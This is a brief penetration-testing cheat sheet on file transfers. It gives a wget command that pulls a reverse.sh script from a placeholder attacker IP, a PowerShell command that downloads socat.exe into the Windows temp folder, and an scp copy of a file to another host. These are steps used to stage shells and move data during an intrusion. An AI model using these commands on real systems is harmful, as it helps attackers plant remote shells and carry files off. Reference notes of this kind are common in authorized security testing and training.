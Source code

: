 ```yaml
---
description: Cheat sheet to upload or download shell/files etc
---
```


# File Transfers

### Download 

#### Wget

```text
wget <LOCAL-IP>/reverse.sh -O /tmp/reverse.sh
```

#### Powershell

```text
Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```

SCP

```text
scp important.txt ubuntu@192.168.1.30:/home/ubuntu/transferred.txt
```



